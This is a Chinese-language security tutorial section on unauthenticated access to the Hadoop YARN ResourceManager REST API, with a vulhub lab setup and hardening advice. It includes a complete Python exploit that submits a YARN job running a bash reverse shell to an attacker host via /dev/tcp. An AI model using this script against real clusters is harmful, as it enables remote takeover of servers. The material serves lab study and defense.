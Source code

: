 Hadoop是一款由Apache基金会推出的分布式系统框架，它通过著名的MapReduce算法进行分布式处理，Yarn是Hadoop集群的资源管理系统。

此次事件主要因HadoopYARN资源管理系统配置不当，导致可以未经授权进行访问，从而被攻击者恶意利用。攻击者无需认证即可通过RESTAPI部署任务来执行任意指令，最终完全控制服务器。

**漏洞检测**

1、端口扫描

2、使用vulhub搭建漏洞演示环境

1 cd /vulhub/hadoop/unauthorized-yarn

2 docker-compose up -d

3、环境启动后，没有配置身份认证，可以未授权访问到Hadoop YARN ResourceManager WebUI页面。

1 http://192.168.126.130:8088/

2 [http://192.168.126.130:8088/cluster](http://192.168.126.130:8088/cluster)

![](https://qqq.gtimg.cn/music/photo_new/T053XD00003yMfMf1KyFD3.jpg)

利用该漏洞，可以进一步getshell

![](https://qqq.gtimg.cn/music/photo_new/T053XD00003GyDbw3vDEdH.jpg)脚本源码如下：rce.py

```
#!/usr/bin/env python
import requests
target = 'http://192.168.126.130:8088/' # 设置目标主机的ip地址
lhost = '192.168.126.128' # 设置你攻击主机的监听ip地址，并且监听端口为9999
url = target + 'ws/v1/cluster/apps/new-application'
resp = requests.post(url)
app_id = resp.json()['application-id']
url = target + 'ws/v1/cluster/apps'
data = {
&nbsp;&nbsp; &nbsp;'application-id': app_id,
&nbsp;&nbsp; &nbsp;'application-name': 'get-shell',
&nbsp;&nbsp; &nbsp;'am-container-spec': {
&nbsp;&nbsp; &nbsp; &nbsp; &nbsp;'commands': {
&nbsp;&nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp;'command': '/bin/bash -i &gt;&amp; /dev/tcp/%s/9999 0&gt;&amp;1' % lhost,
&nbsp;&nbsp; &nbsp; &nbsp;&nbsp; },
&nbsp;&nbsp;&nbsp; },
&nbsp;&nbsp; &nbsp;'application-type': 'YARN',
}
requests.post(url, json=data)
```

**![](https://qqq.gtimg.cn/music/photo_new/T053XD000031ATC709TlV4.jpg)**

**漏洞修复**

-   升级Hadoop到x版本以上，并启用Kerberos认证功能，禁止匿名访问;
-   设置“安全组”访问控制策略，将 Hadoop 默认开放的多个端口对公网全部禁止或限制可信任的 IP 地址才能访问包括 50070 以及 WebUI 等相关端口；
-   如无必要，关闭 Hadoop Web 管理页面；

## 14.    JBoss 未授权访问（8080）
